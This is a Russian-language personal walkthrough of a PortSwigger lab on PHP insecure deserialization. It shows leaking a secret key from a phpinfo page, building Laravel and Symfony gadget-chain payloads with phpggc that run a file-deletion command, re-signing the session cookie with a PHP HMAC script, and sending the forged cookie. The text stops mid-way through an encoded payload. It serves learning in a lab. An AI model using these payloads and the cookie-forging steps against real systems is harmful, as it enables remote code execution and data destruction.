

#### Цепочки гаджетов PHP Generic
Большинство языков, которые часто страдают от уязвимостей небезопасной десериализации, имеют эквивалентные инструменты подтверждения концепции. Например, для сайтов на основе PHP вы можете использовать "PHP Generic Gadget Chains" (PHPGGC)


лаба https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain

## Использование десериализации PHP с помощью готовой цепочки гаджетов


задание:

определить фрейм ворк
использовать наверно PHP Generic Gadget Chains для создания цепочек
сгенерить сериализ обьект кук так
что удалить файл morale.txt по адресу /home/carlos/morale.txt

------
залогинился!

запрос моей страницы
```http
GET /my-account?id=wiener HTTP/2
Host: 0aac007c03dbd20a81e2bb5900990082.web-security-academy.net
Cookie: session=%7B%22token%22%3A%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGJjaW03ZzVjNTU5N21xem1wZjNuOWFsanplcGI1NCI7fQ%3D%3D%22%2C%22sig_hmac_sha1%22%3A%22198e61b732d72e5d5718b8012e6130087abcaf96%22%7D
Cache-Control: max-age=0
```

есть обьект в url кодировке

%7B%22token%22%3A%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGJjaW03ZzVjNTU5N21xem1wZjNuOWFsanplcGI1NCI7fQ%3D%3D%22%2C%22sig_hmac_sha1%22%3A%22198e61b732d72e5d5718b8012e6130087abcaf96%22%7D

расшифровка


```

{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGJjaW03ZzVjNTU5N21xem1wZjNuOWFsanplcGI1NCI7fQ==","sig_hmac_sha1":"198e61b732d72e5d5718b8012e6130087abcaf96"}

```

а на самой странице html вижу следующее:

```html
</button>
                        </form>
                    </div>
                    <!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
                </div>
            </section
```
тут ссылка /cgi-bin/phpinfo.php 

####  phpinfo это стандартный файл с кофигурацией


пробую получить файл

ориг ссылка 
`https://0aac007c03dbd20a81e2bb5900990082.web-security-academy.net/my-account?id=wiener`

меняю
`https://0aac007c03dbd20a81e2bb5900990082.web-security-academy.net/cgi-bin/phpinfo.php`

там громадный файл листов так на 10 а4 - это карта сервера можно узнать про все че там есть

но самое важное - это версия 
#####  PHP Version 7.4.3-4ubuntu2.29

----------

итак, чего я имею

вот такую куку
```

{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGJjaW03ZzVjNTU5N21xem1wZjNuOWFsanplcGI1NCI7fQ==","sig_hmac_sha1":"198e61b732d72e5d5718b8012e6130087abcaf96"}

```

и версию файла  PHP Version 7.4.3-4ubuntu2.29

далее

"sig_hmac_sha1":"198e61b732d72e5d5718b8012e6130087abcaf96"  -  сайт проверяет целостность куки через HMAC-SHA1


-------
из интересного есть ключик  (ваще тут есть все на свете, можно сказать - сервер уже в моих руках полностью)

|            |                                  |
| ---------- | -------------------------------- |
| SECRET_KEY | qxnlw17zeddd9a7wkx5xlagqmxlgv1bt |
видимо этим ключом подписывается  вся это история 
```

{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGJjaW03ZzVjNTU5N21xem1wZjNuOWFsanplcGI1NCI7fQ==","sig_hmac_sha1":"198e61b732d72e5d5718b8012e6130087abcaf96"}

```




-------

ИТАК :

нужно заставить сервер выполнить  команду  rm /home/carlos/morale.txt

у меня есть ключ

| SECRET_KEY | qxnlw17zeddd9a7wkx5xlagqmxlgv1bt |

вот ориг запрос
```

{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGJjaW03ZzVjNTU5N21xem1wZjNuOWFsanplcGI1NCI7fQ==","sig_hmac_sha1":"198e61b732d72e5d5718b8012e6130087abcaf96"}

```

в запросе есть обьект  в кодировке base 64
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGJjaW03ZzVjNTU5N21xem1wZjNuOWFsanplcGI1NCI7fQ==
```

раскодировал

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vtbcim7g5c5597mqzmpf3n9aljzepb54";}
```


-----------


нужно как-то поменять данный пейлоад для выполнения команды rm /home/carlos/morale.txt
при этом нужно воткнуть куда-то rm /home/carlos/morale.txt
и че-то сделать с ключом "sig_hmac_sha1":"198e61b732d72e5d5718b8012e6130087abcaf96"

```

{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGJjaW03ZzVjNTU5N21xem1wZjNuOWFsanplcGI1NCI7fQ==","sig_hmac_sha1":"198e61b732d72e5d5718b8012e6130087abcaf96"}

```

-----
вот эту часть 
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGJjaW03ZzVjNTU5N21xem1wZjNuOWFsanplcGI1NCI7fQ==
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vtbcim7g5c5597mqzmpf3n9aljzepb54";}
```

1   ее можно заменить на вредоносный пейлоад
2   так как хеш поменяется - то нужно будет пересчитать его, и вроде бы ключ я нашел уже

-----

чтобы в пейлоад поставить команду rm /home/carlos/morale.txt
ее нужно десериализовать , учитывая версию  PHP Version 7.4.3-4ubuntu2.29

нужно поставить php   - поставил PHP 8.5.3 на маке м
нужно использовать программу phpggc

для phpggc  = для винды и мак

```
# Клонируем репу
git clone https://github.com/ambionics/phpggc.git

# Заходим в папку
cd phpggc

# Делаем файл исполняемым (на всякий случай)
chmod +x phpggc
```
PHP Generic Gadget Chains" (PHPGGC)

запускаю прогу свою

```bash
./phpggc -b laravel/rce5 "system('rm /home/carlos/morale.txt');"
```

прога работает и выдает мне пейлоад

```
Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6Mjp7czo5OiIAKgBldmVudHMiO086MjU6IklsbHVtaW5hdGVcQnVzXERpc3BhdGNoZXIiOjE6e3M6MTY6IgAqAHF1ZXVlUmVzb2x2ZXIiO2E6Mjp7aTowO086MjU6Ik1vY2tlcnlcTG9hZGVyXEV2YWxMb2FkZXIiOjA6e31pOjE7czo0OiJsb2FkIjt9fXM6ODoiACoAZXZlbnQiO086Mzg6IklsbHVtaW5hdGVcQnJvYWRjYXN0aW5nXEJyb2FkY2FzdEV2ZW50IjoxOntzOjEwOiJjb25uZWN0aW9uIjtPOjMyOiJNb2NrZXJ5XEdlbmVyYXRvclxNb2NrRGVmaW5pdGlvbiI6Mjp7czo5OiIAKgBjb25maWciO086MzU6Ik1vY2tlcnlcR2VuZXJhdG9yXE1vY2tDb25maWd1cmF0aW9uIjoxOntzOjc6IgAqAG5hbWUiO3M6NzoiYWJjZGVmZyI7fXM6NzoiACoAY29kZSI7czo1MjoiPD9waHAgc3lzdGVtKCdybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCcpOyBleGl0OyA/PiI7fX19
```

беру оригинал

```

{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGJjaW03ZzVjNTU5N21xem1wZjNuOWFsanplcGI1NCI7fQ==","sig_hmac_sha1":"198e61b732d72e5d5718b8012e6130087abcaf96"}

```

меняю в нем значение  токен которое было кодированно вот это Tzo0OiJVc2VyIjoyOntzOjg6....... заменяю на полученный пейлоад в проге  phpggc

```

{"token":"Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6Mjp7czo5OiIAKgBldmVudHMiO086MjU6IklsbHVtaW5hdGVcQnVzXERpc3BhdGNoZXIiOjE6e3M6MTY6IgAqAHF1ZXVlUmVzb2x2ZXIiO2E6Mjp7aTowO086MjU6Ik1vY2tlcnlcTG9hZGVyXEV2YWxMb2FkZXIiOjA6e31pOjE7czo0OiJsb2FkIjt9fXM6ODoiACoAZXZlbnQiO086Mzg6IklsbHVtaW5hdGVcQnJvYWRjYXN0aW5nXEJyb2FkY2FzdEV2ZW50IjoxOntzOjEwOiJjb25uZWN0aW9uIjtPOjMyOiJNb2NrZXJ5XEdlbmVyYXRvclxNb2NrRGVmaW5pdGlvbiI6Mjp7czo5OiIAKgBjb25maWciO086MzU6Ik1vY2tlcnlcR2VuZXJhdG9yXE1vY2tDb25maWd1cmF0aW9uIjoxOntzOjc6IgAqAG5hbWUiO3M6NzoiYWJjZGVmZyI7fXM6NzoiACoAY29kZSI7czo1MjoiPD9waHAgc3lzdGVtKCdybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCcpOyBleGl0OyA/PiI7fX19","sig_hmac_sha1":"198e61b732d72e5d5718b8012e6130087abcaf96"}

```

осталось лишь переподписать ключ  sig_hmac_sha1 198e61b732d72e5d5718b8012e6130087abcaf96


вот секрет ключ который я получил с сервера qxnlw17zeddd9a7wkx5xlagqmxlgv1bt этим ключом можно переделать подпись sig_hmac_sha1


создаю файл 
```bash
nano sign.php
```

ставлю в него код 

```php
<?php
$secret = 'qxnlw17zeddd9a7wkx5xlagqmxlgv1bt';
$token = 'Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6Mjp7czo5OiIAKgBldmVudHMiO086MjU6IklsbHVtaW5hdGVcQnVzXERpc3BhdGNoZXIiOjE6e3M6MTY6IgAqAHF1ZXVlUmVzb2x2ZXIiO2E6Mjp7aTowO086MjU6Ik1vY2tlcnlcTG9hZGVyXEV2YWxMb2FkZXIiOjA6e31pOjE7czo0OiJsb2FkIjt9fXM6ODoiACoAZXZlbnQiO086Mzg6IklsbHVtaW5hdGVcQnJvYWRjYXN0aW5nXEJyb2FkY2FzdEV2ZW50IjoxOntzOjEwOiJjb25uZWN0aW9uIjtPOjMyOiJNb2NrZXJ5XEdlbmVyYXRvclxNb2NrRGVmaW5pdGlvbiI6Mjp7czo5OiIAKgBjb25maWciO086MzU6Ik1vY2tlcnlcR2VuZXJhdG9yXE1vY2tDb25maWd1cmF0aW9uIjoxOntzOjc6IgAqAG5hbWUiO3M6NzoiYWJjZGVmZyI7fXM6NzoiACoAY29kZSI7czo1MjoiPD9waHAgc3lzdGVtKCdybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCcpOyBleGl0OyA/PiI7fX19';

$sig = hash_hmac('sha1', $token, $secret);
echo $sig . "\n";
?>
```

запускаю 
```bash
php sign.php
```

ответ - новая подпись!!!!!!

`a363320d3ae566d9b6f2836f30d75831498a93d7`


отлично - теперь все компоненты в сборе!!

-----

берем это 
```

{"token":"Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6Mjp7czo5OiIAKgBldmVudHMiO086MjU6IklsbHVtaW5hdGVcQnVzXERpc3BhdGNoZXIiOjE6e3M6MTY6IgAqAHF1ZXVlUmVzb2x2ZXIiO2E6Mjp7aTowO086MjU6Ik1vY2tlcnlcTG9hZGVyXEV2YWxMb2FkZXIiOjA6e31pOjE7czo0OiJsb2FkIjt9fXM6ODoiACoAZXZlbnQiO086Mzg6IklsbHVtaW5hdGVcQnJvYWRjYXN0aW5nXEJyb2FkY2FzdEV2ZW50IjoxOntzOjEwOiJjb25uZWN0aW9uIjtPOjMyOiJNb2NrZXJ5XEdlbmVyYXRvclxNb2NrRGVmaW5pdGlvbiI6Mjp7czo5OiIAKgBjb25maWciO086MzU6Ik1vY2tlcnlcR2VuZXJhdG9yXE1vY2tDb25maWd1cmF0aW9uIjoxOntzOjc6IgAqAG5hbWUiO3M6NzoiYWJjZGVmZyI7fXM6NzoiACoAY29kZSI7czo1MjoiPD9waHAgc3lzdGVtKCdybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCcpOyBleGl0OyA/PiI7fX19","sig_hmac_sha1":"198e61b732d72e5d5718b8012e6130087abcaf96"}

```

и подставлю новый подпись 

```

{"token":"Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6Mjp7czo5OiIAKgBldmVudHMiO086MjU6IklsbHVtaW5hdGVcQnVzXERpc3BhdGNoZXIiOjE6e3M6MTY6IgAqAHF1ZXVlUmVzb2x2ZXIiO2E6Mjp7aTowO086MjU6Ik1vY2tlcnlcTG9hZGVyXEV2YWxMb2FkZXIiOjA6e31pOjE7czo0OiJsb2FkIjt9fXM6ODoiACoAZXZlbnQiO086Mzg6IklsbHVtaW5hdGVcQnJvYWRjYXN0aW5nXEJyb2FkY2FzdEV2ZW50IjoxOntzOjEwOiJjb25uZWN0aW9uIjtPOjMyOiJNb2NrZXJ5XEdlbmVyYXRvclxNb2NrRGVmaW5pdGlvbiI6Mjp7czo5OiIAKgBjb25maWciO086MzU6Ik1vY2tlcnlcR2VuZXJhdG9yXE1vY2tDb25maWd1cmF0aW9uIjoxOntzOjc6IgAqAG5hbWUiO3M6NzoiYWJjZGVmZyI7fXM6NzoiACoAY29kZSI7czo1MjoiPD9waHAgc3lzdGVtKCdybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCcpOyBleGl0OyA/PiI7fX19","sig_hmac_sha1":"a363320d3ae566d9b6f2836f30d75831498a93d7"}

```

ГОТОВО! обьект создан!

пора его отправлять вместе с запросом!

беру этот пейлоад и кодирую его URL и потом помещаю в тот самый запрос , который обновляет мою стр где я  залогининен

вот так получается
```http

GET /my-account?id=wiener HTTP/2
Host: 0aac007c03dbd20a81e2bb5900990082.web-security-academy.net
Cookie: session=%7B%22%74%6F%6B%65%6E%22%3A%22%54%7A%6F%30%4D%44%6F%69%53%57%78%73%64%57%31%70%62%6D%46%30%5A%56%78%43%63%6D%39%68%5A%47%4E%68%63%33%52%70%62%6D%64%63%55%47%56%75%5A%47%6C%75%5A%30%4A%79%62%32%46%6B%59%32%46%7A%64%43%49%36%4D%6A%70%37%63%7A%6F%35%4F%69%49%41%4B%67%42%6C%64%6D%56%75%64%48%4D%69%4F%30%38%36%4D%6A%55%36%49%6B%6C%73%62%48%56%74%61%57%35%68%64%47%56%63%51%6E%56%7A%58%45%52%70%63%33%42%68%64%47%4E%6F%5A%58%49%69%4F%6A%45%36%65%33%4D%36%4D%54%59%36%49%67%41%71%41%48%46%31%5A%58%56%6C%55%6D%56%7A%62%32%78%32%5A%58%49%69%4F%32%45%36%4D%6A%70%37%61%54%6F%77%4F%30%38%36%4D%6A%55%36%49%6B%31%76%59%32%74%6C%63%6E%6C%63%54%47%39%68%5A%47%56%79%58%45%56%32%59%57%78%4D%62%32%46%6B%5A%58%49%69%4F%6A%41%36%65%33%31%70%4F%6A%45%37%63%7A%6F%30%4F%69%4A%73%62%32%46%6B%49%6A%74%39%66%58%4D%36%4F%44%6F%69%41%43%6F%41%5A%58%5A%6C%62%6E%51%69%4F%30%38%36%4D%7A%67%36%49%6B%6C%73%62%48%56%74%61%57%35%68%64%47%56%63%51%6E%4A%76%59%57%52%6A%59%58%4E%30%61%57%35%6E%58%45%4A%79%62%32%46%6B%59%32%46%7A%64%45%56%32%5A%57%35%30%49%6A%6F%78%4F%6E%74%7A%4F%6A%45%77%4F%69%4A%6A%62%32%35%75%5A%57%4E%30%61%57%39%75%49%6A%74%50%4F%6A%4D%79%4F%69%4A%4E%62%32%4E%72%5A%58%4A%35%58%45%64%6C%62%6D%56%79%59%58%52%76%63%6C%78%4E%62%32%4E%72%52%47%56%6D%61%57%35%70%64%47%6C%76%62%69%49%36%4D%6A%70%37%63%7A%6F%35%4F%69%49%41%4B%67%42%6A%62%32%35%6D%61%57%63%69%4F%30%38%36%4D%7A%55%36%49%6B%31%76%59%32%74%6C%63%6E%6C%63%52%32%56%75%5A%58%4A%68%64%47%39%79%58%45%31%76%59%32%74%44%62%32%35%6D%61%57%64%31%63%6D%46%30%61%57%39%75%49%6A%6F%78%4F%6E%74%7A%4F%6A%63%36%49%67%41%71%41%47%35%68%62%57%55%69%4F%33%4D%36%4E%7A%6F%69%59%57%4A%6A%5A%47%56%6D%5A%79%49%37%66%58%4D%36%4E%7A%6F%69%41%43%6F%41%59%32%39%6B%5A%53%49%37%63%7A%6F%31%4D%6A%6F%69%50%44%39%77%61%48%41%67%63%33%6C%7A%64%47%56%74%4B%43%64%79%62%53%41%76%61%47%39%74%5A%53%39%6A%59%58%4A%73%62%33%4D%76%62%57%39%79%59%57%78%6C%4C%6E%52%34%64%43%63%70%4F%79%42%6C%65%47%6C%30%4F%79%41%2F%50%69%49%37%66%58%31%39%22%2C%22%73%69%67%5F%68%6D%61%63%5F%73%68%61%31%22%3A%22%61%33%36%33%33%32%30%64%33%61%65%35%36%36%64%39%62%36%66%32%38%33%36%66%33%30%64%37%35%38%33%31%34%39%38%61%39%33%64%37%22%7D
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aac007c03dbd20a81e2bb5900990082.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2dGJjaW03ZzVjNTU5N21xem1wZjNuOWFsanplcGI1NCI7fQ==


```


получаю ошибку 
```
PHP Fatal error:  Uncaught Exception: Invalid user  in /var/www/index.php:13
Stack trace:
#0 {main}
  thrown in /var/www/index.php on line 13

```

#### проблема: Сайт ожидает объект типа `User`, а мы шлем объект из гаджет-чейна Laravel. Сервер говорит: "Я не знаю такой класс" и падает


-------


нужно провернуть шаги заного

1) генерирую пейлоад через  phpggc
2) генерирую подпись
3) отправляю на сервер и смотрим ответ


---------

1) генерю пейлоад `./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64`

получил пейлоад

```
Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==
```

подставил

```

{"token":"Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==","sig_hmac_sha1":"подпись"}

```

2) теперь нужно подпись 

создаю файл 
```bash
nano sign.php
```


```php
<?php
$secret = 'qxnlw17zeddd9a7wkx5xlagqmxlgv1bt';
$token = 'Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==';

$sig = hash_hmac('sha1', $token, $secret);
echo $sig . "\n";
?>
```

выполняю 
```bash
php sign.php
```
получил ключ 52fcec33389edceaf48a5ce6fd171095728ec964

подставил 

```

{"token":"Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==","sig_hmac_sha1":"52fcec33389edceaf48a5ce6fd171095728ec964"}

```


кодировал URL
```
%7B%22%74%6F%6B%65%6E%22%3A%22%54%7A%6F%30%4E%7A%6F%69%55%33%6C%74%5A%6D%39%75%65%56%78%44%62%32%31%77%62%32%35%6C%62%6E%52%63%51%32%46%6A%61%47%56%63%51%57%52%68%63%48%52%6C%63%6C%78%55%59%57%64%42%64%32%46%79%5A%55%46%6B%59%58%42%30%5A%58%49%69%4F%6A%49%36%65%33%4D%36%4E%54%63%36%49%67%42%54%65%57%31%6D%62%32%35%35%58%45%4E%76%62%58%42%76%62%6D%56%75%64%46%78%44%59%57%4E%6F%5A%56%78%42%5A%47%46%77%64%47%56%79%58%46%52%68%5A%30%46%33%59%58%4A%6C%51%57%52%68%63%48%52%6C%63%67%42%6B%5A%57%5A%6C%63%6E%4A%6C%5A%43%49%37%59%54%6F%78%4F%6E%74%70%4F%6A%41%37%54%7A%6F%7A%4D%7A%6F%69%55%33%6C%74%5A%6D%39%75%65%56%78%44%62%32%31%77%62%32%35%6C%62%6E%52%63%51%32%46%6A%61%47%56%63%51%32%46%6A%61%47%56%4A%64%47%56%74%49%6A%6F%79%4F%6E%74%7A%4F%6A%45%78%4F%69%49%41%4B%67%42%77%62%32%39%73%53%47%46%7A%61%43%49%37%61%54%6F%78%4F%33%4D%36%4D%54%49%36%49%67%41%71%41%47%6C%75%62%6D%56%79%53%58%52%6C%62%53%49%37%63%7A%6F%79%4E%6A%6F%69%63%6D%30%67%4C%32%68%76%62%57%55%76%59%32%46%79%62%47%39%7A%4C%32%31%76%63%6D%46%73%5A%53%35%30%65%48%51%69%4F%33%31%39%63%7A%6F%31%4D%7A%6F%69%41%46%4E%35%62%57%5A%76%62%6E%6C%63%51%32%39%74%63%47%39%75%5A%57%35%30%58%45%4E%68%59%32%68%6C%58%45%46%6B%59%58%42%30%5A%58%4A%63%56%47%46%6E%51%58%64%68%63%6D%56%42%5A%47%46%77%64%47%56%79%41%48%42%76%62%32%77%69%4F%30%38%36%4E%44%51%36%49%6C%4E%35%62%57%5A%76%62%6E%6C%63%51%32%39%74%63%47%39%75%5A%57%35%30%58%45%4E%68%59%32%68%6C%58%45%46%6B%59%58%42%30%5A%58%4A%63%55%48%4A%76%65%48%6C%42%5A%47%46%77%64%47%56%79%49%6A%6F%79%4F%6E%74%7A%4F%6A%55%30%4F%69%49%41%55%33%6C%74%5A%6D%39%75%65%56%78%44%62%32%31%77%62%32%35%6C%62%6E%52%63%51%32%46%6A%61%47%56%63%51%57%52%68%63%48%52%6C%63%6C%78%51%63%6D%39%34%65%55%46%6B%59%58%42%30%5A%58%49%41%63%47%39%76%62%45%68%68%63%32%67%69%4F%32%6B%36%4D%54%74%7A%4F%6A%55%34%4F%69%49%41%55%33%6C%74%5A%6D%39%75%65%56%78%44%62%32%31%77%62%32%35%6C%62%6E%52%63%51%32%46%6A%61%47%56%63%51%57%52%68%63%48%52%6C%63%6C%78%51%63%6D%39%34%65%55%46%6B%59%58%42%30%5A%58%49%41%63%32%56%30%53%57%35%75%5A%58%4A%4A%64%47%56%74%49%6A%74%7